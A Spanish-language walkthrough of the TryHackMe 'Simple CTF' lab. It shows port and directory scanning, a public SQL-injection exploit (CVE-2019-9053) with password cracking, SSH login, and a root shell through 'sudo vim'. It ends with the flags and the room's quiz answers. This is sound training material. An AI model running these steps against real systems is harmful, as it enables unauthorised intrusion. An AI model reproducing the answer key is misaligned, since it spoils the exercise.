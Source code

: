 # Máquina Simple CTF

Dificultad --> Facil

Instrucciones --> **Para poder resolver esta máquina tienes que registrarte en la página de TryHackMe y buscarla por el nombre de Simple CTF**

'

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

'

![image](https://github.com/user-attachments/assets/d732fcad-cc76-4228-b81d-ec7b618526db)


## 1.Reconocmiento

Realizamos un escaneo de puertos con la herramienta Nmap para verificar los puertos abiertos


![image](https://github.com/user-attachments/assets/59607f6a-127b-4080-8e41-6ba158a6caa9)


    sudo nmap -sV -sC -T4 10.10.84.56 -vv

![image](https://github.com/user-attachments/assets/adddfe16-5bea-46fe-ab27-aecdf8ff6b08)


![image](https://github.com/user-attachments/assets/38256d6c-898c-49d1-ab52-e7d597653fd5)


![image](https://github.com/user-attachments/assets/1f45f5d0-2508-44fe-b21d-8e44c8907525)


### Resumen de la Información Obtenida

|IP           | Sistema OPerativo | Puertos/Servicios           | 
|:----------: |:-----------------:| :--------------------------:| 
| 10.10.84.56 | Ubuntu / Linux    | 21 ftp vsftpd 3.0.3         |
|             |                   | 80 http Apache httpd 2.4.18 |
|             |                   | 2222 OpenSSH 7.2p2          |


## 2. Análisis de Vulnerabilidades / Debilidades

Realizamos un fuzzing con el siguiente comando :

    gobuster dir -u 10.10.84.56 -w /usr/share/dirb/wordlists/common.txt -t 100 


![image](https://github.com/user-attachments/assets/e1d0b4af-a27b-43eb-82cb-c22e60be79af)

Abrimos el directorio /simple/ en la cual conseguiremos una página que trabaja bajo CMS Made Simple version 2.2.8 el cual tiene una vulnerabilidad

![image](https://github.com/user-attachments/assets/732ae31b-b42a-4988-99c1-35b257ec1571)


## 3. Explotación 

Buscamos un exploit para esta vulnerabilidad

![image](https://github.com/user-attachments/assets/b8329223-3f3d-4bf4-96a0-c0ae0c8f0542)


localizamos la ruta del exploit para poder copiarlo en nuestra carpeta de trabajo

![image](https://github.com/user-attachments/assets/81f358bb-863c-490c-b25e-b486a65ae19a)


ejecutamos el exploit de la siguiente manera el cual nos va indicar la sintaxis correcta para ejecutarlo


![image](https://github.com/user-attachments/assets/f545fefb-a350-4e08-a36b-46a2f2dcc88a)


Ejecutamos el siguiente comando:


    python2 cmsexploit.py -u http://10.10.84.56/simple/ --crack -w /usr/share/wordlists/rockyou.txt


![image](https://github.com/user-attachments/assets/a2012cc5-3f45-4d8c-86db-57bf459ae1c9)


Obtuvimos un usuario, email y una contraseña


![image](https://github.com/user-attachments/assets/d3f7ce2b-fb49-4d4a-80b3-fc53667176e8)


Nos conectamos por ssh y el puerto 2222


![image](https://github.com/user-attachments/assets/a33f8195-e81c-4cb9-9b07-b3cf0e75e655)


Tenemos la bandera user.txt 🚩: G00d j0b, keep up!

![image](https://github.com/user-attachments/assets/38f3a61d-a4a9-4915-8871-c7780de896a8)


## 4. Escalación de privilegios

Buscando como escalar privilegios ejecutando el siguiente comando:

    sudo -l

![image](https://github.com/user-attachments/assets/6aba3933-4bd6-45e2-83ad-2abd9727ee21)


Buscamos como escalar privilegios a través del binario vim 


![image](https://github.com/user-attachments/assets/36ef67ad-022d-4f23-ad23-f5c52d07e7a2)


ejecutamos el siguiente comando para escalar privilegios como root

    sudo vim -c ':!/bin/sh’


![image](https://github.com/user-attachments/assets/ab1b7914-db11-41ad-a340-a98a6718f0d9)


Ahora buscamos la bandera root.txt 🚩 : W3ll d0n3. You made it!


![image](https://github.com/user-attachments/assets/76308b36-6a77-45b9-9644-310a7da9df08)



## 5.Banderas 🏁

|user.txt | G00d j0b, keep up!      |
|:-------:|:-----------------------:|
|root.txt | W3ll d0n3. You made it! |



## 6.Extra 🚨

Acá las respuesta del cuestionario de TryHackMe 

- How many services are running under port 1000?

2

- What is running on the higher port?

ssh

- What's the CVE you're using against the application?

CVE-2019-9053

- To what kind of vulnerability is the application vulnerable?

sqli

- What's the password?

secret

Where can you login with the details obtained?

ssh

- What's the user flag?

G00d j0b, keep up!

- Is there any other user in the home directory? What's its name?

sunbath

- What can you leverage to spawn a privileged shell?

vim

- What's the root flag?

W3ll d0n3. You made it!





































































































